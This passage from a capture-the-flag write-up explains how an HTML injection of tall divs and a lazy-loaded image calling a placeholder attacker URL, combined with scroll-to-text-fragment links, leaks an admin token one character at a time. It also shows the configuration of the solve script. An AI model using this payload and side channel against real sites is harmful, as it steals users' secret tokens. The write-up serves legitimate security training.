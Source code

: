 ```html
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<img loading=lazy src="OUR_URL">
```

When we visit the generated verification page at `/verify?token=TOKEN`, we will get the following page:

```html
...

<div class="alert alert-success" role="alert">
   This token belongs to 
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <img loading=lazy src="OUR_URL">.
   If 
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <img loading=lazy src="OUR_URL"> asks for your token, you can give them this token: TISC{OUR_TOKEN}.
</div>

...
```

Opening the page with the `:~:text=TISC{` fragment, we can see that a scroll is induced, causing the lazy-loaded image to be fetched.

All we need to to is to automate the submission of different text fragments, and for each text fragment, detect if a callback is received. This allows us to bruteforce the admin token (the flag of the challenge) one character at a time.

Note: In order for the STTF to work on an incomplete flag, the special `TISC{x:y:z}` format is required, where each character is alphanumeric and a number occurs in at least every other character. The flag has been specially chosen with this in mind.

### Wrapping Up

The full exploit chain is automated in solve.py.

The following needs to be changed:

```python
CHALLENGE_HOST = 'localhost'    # Change this
CHALLENGE_PORT = 80             # Change this

# Change this - this is our URL that proxies to our local port 1337
OUR_URL = 'http://OUR_URL/LOADED'
```

`OUR_URL` is the URL (such as one provided by `ngrok`, or the player's own public IP) that maps to our local port 1337.
